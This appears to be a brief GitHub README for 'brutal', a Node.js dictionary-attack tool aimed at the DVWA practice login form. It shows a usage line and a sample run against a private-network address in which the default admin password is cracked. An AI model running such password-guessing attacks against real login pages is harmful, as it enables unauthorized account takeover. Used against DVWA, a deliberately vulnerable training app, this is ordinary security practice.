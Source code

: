 # brutal

Use BruteForce with DVWA login form

```bash
Usage: node index.js url user dictionary_file.txt

node index.js http://192.168.1.109/DVWA-master/login.php admin wordlists/fasttrack.txt
******************************************************************
UNLOCKED USER: admin WITH PASSWORD: password
******************************************************************
```
